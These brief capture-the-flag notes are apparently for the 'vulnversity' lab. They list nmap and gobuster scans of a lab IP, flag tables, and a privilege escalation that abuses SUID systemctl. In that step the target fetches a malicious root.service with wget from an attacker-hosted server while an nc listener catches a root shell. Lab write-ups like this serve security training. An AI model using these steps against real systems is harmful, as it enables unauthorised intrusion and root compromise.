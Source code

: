 # vulnversity

# task 1
10.10.92.1

# task 2
```nmap -sC -sV 10.10.92.1 -oN ip```
Nmap flag	Description
-sV	Attempts to determine the version of the services running
-p <x> or -p-	Port scan for port <x> or scan all ports
-Pn	Disable host discovery and scan for open ports
-A	Enables OS and version detection, executes in-build scripts for further enumeration 
-sC	Scan with the default Nmap scripts
-v	Verbose mode
-sU	UDP port scan
-sS	TCP SYN port scan

```gobuster dir -u http://10.10.92.1:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt```
- /internal/
Gobuster flag	Description
-e	Print the full URLs in your console
-u	The target URL
-w	Path to your wordlist
-U and -P	Username and Password for Basic Auth
-p <x>	Proxy to use for requests
-c <http cookies>	Specify a cookie for simulating your auth




```
Use the command: find / -user root -perm -4000 -exec ls -ldb {} \;
/bin/systemctl

python3 -m http.server 80 #host
nc -lvnp 9002 # host

wget http://ip_tun_kita/root.service
systemctl enable /tmp/root.service
systemctl start root
```